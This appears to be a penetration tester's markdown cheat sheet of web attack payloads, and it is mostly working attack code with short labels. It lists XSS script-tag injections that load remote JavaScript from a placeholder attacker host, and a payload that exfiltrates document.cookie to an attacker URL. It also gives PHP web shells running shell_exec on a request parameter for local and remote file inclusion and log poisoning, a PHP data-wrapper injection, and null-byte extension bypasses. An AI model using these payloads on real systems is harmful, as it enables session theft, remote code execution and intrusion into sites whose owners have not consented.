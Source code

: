 # XSS

### reference: special characters for HTML and javascript
```
< > # used to denote HTML elements 
' " # strings
{ } # javascript function declarations
;   # end of statement
```
---

### php: file extension bypass
```
%00 # null byte in the URL will bypass the file extension in older PHP servers 
?   # ending url with ? will mark anything as part of query string
```
---

### javascript: XSS with script tag 
```html
<script src=http://OUR_IP></script>

'><script src=http://OUR_IP></script>

"><script src=http://OUR_IP></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>

<script>$.getScript("http://OUR_IP")</script>
```
---

### javascript: XSS content injection with iframe
```html
<iframe src=<your_url> height="0" weight="0"></iframe>
```
---

### javascript: XSS cookie exfiltration with javascript
```html
<script>new Image().src="<your_url>/page.html?output="+document.cookie;</script>
```
---

### javascript: payload from the external resource
```html
<script src="http://<your_ip>/xss.js"></script>
```
---

### javascript: use img tag in case script tag can't be executed
```html
<img src='x' onerror='alert(0)'>
```
---

# LFI

### php: LFI payload in PHP (can be used as log contamination)
```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

# RFI

### php: RFI payload in PHP (can be used as log contamination)
```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

# PHP Wrappers

### php: PHP data wrapper example:
```
<vuln_url>/<vuln_path>?<vuln_param>=data:text/plain,<?php echo shell_exec("whoami") ?>

# e.g.: http://10.10.0.2/menu.php?file=data:text/plain,<?php echo shell_exec("whoami") ?>
```
---

